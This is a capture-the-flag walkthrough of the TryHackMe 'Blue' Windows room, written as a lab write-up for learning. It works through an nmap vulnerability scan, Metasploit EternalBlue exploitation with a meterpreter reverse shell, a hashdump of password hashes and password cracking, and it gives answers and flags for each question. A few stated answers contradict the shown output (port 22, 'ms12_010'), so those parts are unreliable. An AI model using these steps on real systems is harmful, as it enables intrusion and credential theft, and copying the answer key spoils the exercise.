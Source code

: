 # <center>Blue</center>
<p align="center"><img src=".medias/blue/blue_logo.gif">

Hello homies. Today we'll solve an easy room on Try Hack Me. I'll be guiding you through each task given in the room. lettuce Deploy & hack into a Windows machine, leveraging common misconfigurations issues 👿.

## Task 1 : Recon
Just click on `Start Machine` button presented in this task. This shall get your server running. You'll get the ip address in a minute. Then connect to Try Hack Me vpn and try to ping the ip address to check if you can successfull access the server.

Let' scan the machine using Nmap and then we will answer the questions based on out scanning.` nmap -A -T5 <ip address> --script vuln -Pn`
- -A: Agressive scan
- -T5: very fast scanning
- --script vuln: uses vuln script of nmap to discover vulnerabilities
- -Pn: supresses the ping request because teh description of room says that this machine does not respond to ping (ICMP).

```bash
┌──(cyb3ritic㉿kali)-[~]
└─$ nmap -A -T4 10.10.231.72 --script vuln -Pn 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-25 12:21 IST
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.231.72
Host is up (0.16s latency).
Not shown: 991 closed tcp ports (conn-refused)
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
|_ssl-ccs-injection: No reply from server (TIMEOUT)
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49158/tcp open  msrpc              Microsoft Windows RPC
49159/tcp open  msrpc              Microsoft Windows RPC
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 229.38 seconds
                                                                  
```

**Q1. How many ports are open with a port number under 1000?**
```text
From the scan we can see three ports (22,139 and 445) below 1000 are open.
```

**Ans: `3`**

**Q2. What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)**
```bash
Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false

```

**Ans: `ms17-010`**

## Task 2 : Gain Access
In this writeup we will be solving the machine using metasploit. So let's start out metasploit console using command `msfconsole`.
and do the steps shown below:

**Q1. Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)**

- `search ms17-010`
![searching exploit](.medias/blue/search_exploit.png)

- `use exploit/windows/smb/ms17_010_eternalblue`

    ```bash
    msf6 > use exploit/windows/smb/ms17_010_eternalblue
    [*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
    msf6 exploit(windows/smb/ms17_010_eternalblue) >
    ```
**Ans: `exploit/windows/smb/ms12_010_eternalblue`**


**Q2. Show options and set the one required value. What is the name of this value? (All caps for submission)**
- `show options`
![show options for the exploit](.medias/blue/options.png)

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.231.72
RHOSTS => 10.10.231.72
```
**Ans: `RHOSTS`**

For payload, by default getting meterpreter shell. So we don't need to do any funrther steps, just set palyload to windows/x64/meterpreter/reverse_tcp.
- `set payload windows/x64/meterpreter/reverse_tcp`
- `set LHOST tun0`
- `run`  # this will execute out payload and get us a meterpreter tcp reverse shell





## Task 3 : Escalate

This task requires you to escalate your normal shell to meterpreter. But in our case, by default we got meter preter shell, so we don't need to do anything for escalation.

But anyway, if you land on a normal reverse shell, [follow this writeup to escalate to meterpreter shell](https://infosecwriteups.com/metasploit-upgrade-normal-shell-to-meterpreter-shell-2f09be895646)

Now let's check who are we logged in as. Type `shell` in meterpreter to get a shell and then use `whoami` command.
```bash
meterpreter > shell
Process 1968 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

Okay, so we already are nt authority\system. So we don't need to migrate to any other process. else we would need to use command `migrate <pid>` to migrate to any process used by nt authority\system.

Now let's get back to out meterpreter shell. use `exit` command for this and you will land to your previous meterpreter shell.

## Task 4 : Cracking

In meterpreter shell, we have a command `hashdump` that dumps all the users and their password hashes. Let's try it out.
```bash
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

We got three users. and their hashes as well. And we are required to crack the Jon's password. let's copy the hash for Jon in a file hash.txt and use John the ripper to crack the password.

![cracking password](.medias/blue/crack_password.png)

and we successfully got teh password for user Jon.

Alternatively, we can also copy the hashpart of password and give it to [hashes.com](https://hashes.com) and it will crack the hash for us.

**Q1. Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user? **

**Ans: `Jon`**

**Q2. Copy this password hash to a file and research how to crack it. What is the cracked password?**

**Ans: `alqfna22`**

## Task 5 : Finding flags!

**Q1. Flag1? This flag can be found at the system root.**

```text
Since the flag is located in system root directory. Let's go to `C` drive and search for it
```

![flag1](.medias/blue/flag1.png)
**Ans: `flag{access_the_machine}`**


**Q2. Flag2? This flag can be found at the location where passwords are stored within Windows.**

***Errata: Windows really doesn't like the location of this flag and can occasionally delete it. It may be necessary in some cases to terminate/restart the machine and rerun the exploit to find this flag. This relatively rare, however, it can happen.***

```text
By default, meterpreter shell has a search functionality that can help use search a file.
```

![flag2](.medias/blue/flag2.png)
**Ans: `flag{sam_database_elevated_access}`**

**Q3. flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved.**

```text
similarly, we can also search for flag3.txt.
```
![flag3](.medias/blue/flag3.png)

**Ans: `flag{admin_documents_can_be_valuable}`**

---

And we have successfully found all the flags and solved this room. I hope you all enjoyed this and learnt something new. Until we meet again `:)`.